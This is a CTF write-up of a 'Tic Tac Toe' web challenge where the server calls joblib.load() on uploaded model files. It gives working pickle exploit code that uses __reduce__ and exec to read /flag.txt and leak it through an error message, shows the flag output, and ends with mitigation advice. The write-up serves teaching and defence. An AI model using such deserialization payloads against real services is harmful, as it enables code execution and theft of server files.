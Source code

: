 # Tic Tac Toe Web Challenge Write-Up  
**By:** Monish Polimetla  
**Category:** Web  
**Difficulty:** Medium  
**Challenge Type:** CTF Challenge  

---

## Description

This challenge provided a simple web interface to upload a `.joblib` file representing a Tic Tac Toe AI. The uploaded model would play a complete game against the server’s AI. The game logs and final outcome were displayed after uploading the model.

At first, it seems like a machine learning challenge where the goal is to beat the AI. However, with a closer look at the backend code, it becomes clear that the real vulnerability lies in how the server loads and executes the uploaded model.

---

## Goal

Abuse Python's insecure deserialization via `joblib.load()` to extract the contents of `/flag.txt` without playing the game at all.

---

## Web Interface Behavior

From the instructions on the challenge page:

- Your model will receive a list of 9 integers representing the game board:
  - `0` = empty
  - `1` = your moves
  - `2` = opponent's moves

- The model must return a single integer from `0` to `8`, indicating your move.

Behind the scenes, the application does the following:
- Uploads the `.joblib` file
- Loads the model using `joblib.load()`
- Plays a full game turn-by-turn
- Displays the game result or model errors on the page

---

## Code Behavior

From the source code in `app.py`, the vulnerable line is:

```python
user_model = joblib.load(path)
<img width="1643" height="660" alt="Screenshot 2025-07-20 161933" src="https://github.com/user-attachments/assets/8d69d326-a59d-4785-9a70-6d6ea96c8e64" />


## Payload Construction

### Step 1: Create the Malicious Class

```python
class PickleExploit:
    def __reduce__(self):
        return (exec, ("raise RuntimeError(open('/flag.txt').read())",))
```

- `__reduce__()` defines how an object is serialized and deserialized.
- We return an `exec()` call that throws the contents of the flag as an error.

---

### Step 2: Save the Object as a `.joblib` File

```python
import pickle

with open("pickle_exploit.joblib", "wb") as f:
    pickle.dump(PickleExploit(), f)
```

- This file will now run the `exec(...)` command as soon as the server loads it.

---

## Exploit Execution

We upload `pickle_exploit.joblib` to the challenge site.

The result:

- The server calls `joblib.load()`
- `pickle` runs our `__reduce__()` method
- A `RuntimeError` is thrown with the contents of `/flag.txt`
- The Flask web app catches the error and displays it as:

```
Model error: SVUSCG{04a0bedb1cf32545562ddb58e00e104f}
```

---

## Why It Worked

- `joblib.load()` = `pickle.load()` under the hood
- `pickle.load()` blindly executes instructions returned by `__reduce__()`
- The app prints exception messages back to the user
- The flag was stored in a readable file at `/flag.txt`

This chain made it possible to exfiltrate the flag using only Python deserialization.

---

## Mitigation Advice

This is a textbook example of insecure deserialization. Here’s what should have been done differently:

### What Went Wrong

- Untrusted user input was deserialized without sandboxing.
- `pickle` was used in a production-facing environment.
- Error messages were printed directly to the frontend.

### How to Fix It

- Never use `pickle`, `joblib`, or `dill` to load untrusted content.
- Use safe formats (e.g., ONNX, PMML, JSON) for model uploads.
- Run untrusted code inside an isolated Docker or Firejail sandbox.
- Never show raw exceptions to users — log them privately instead.

---
